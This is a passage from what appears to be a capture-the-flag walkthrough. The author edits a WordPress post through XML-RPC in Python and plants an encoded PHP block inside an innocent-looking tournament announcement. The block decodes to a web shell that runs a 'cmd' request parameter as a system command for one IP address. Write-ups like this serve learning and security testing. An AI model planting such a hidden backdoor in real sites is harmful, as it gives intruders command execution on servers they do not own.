 ![](/img/image-20220201083004841.png)

I'll get the `Post` instance in Python and modify the content:



    >>> mod_post = plist[0]
    >>> mod_post.content = '<!-- wp:paragraph -->\n<p>The UHC January Finals are underway!  After this event, there are only three left until the season one finals in which all the previous winners will compete in the Tournament of Champions. This event a total of eight players qualified, seven of which are from Brazil and there is one lone Canadian.  Metrics for this event can be found below.</p>\n<!-- /wp:paragraph -->\n\n<!-- wp:php-everywhere-block/php {"code":"JTNDP3BocCUyMCUwQSUyMCUyMGVjaG8oZmlsZV9nZXRfY29udGVudHMoJy92YXIvd3d3L2h0bWwvb3V0cHV0LmxvZycpKTslMjAlMEElMjAlMjBpZiUyMCgkX1NFUlZFUiU1QidSRU1PVEVfQUREUiclNUQlMjA9PSUyMCcxMC4xMC4xNC42JyklMjAlN0IlMEElMjAlMjAlMjAlMjBzeXN0ZW0oJF9SRVFVRVNUJTVCJ2NtZCclNUQpOyUwQSUyMCUyMCU3RCUyMCUwQT8lM0U=","version":"3.0.0"} /-->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->'
    >>> client.call(posts.EditPost(mod_post.id, mod_post))



If I refresh that post, it looks the same. But if I add `?cmd=id` to the
end:
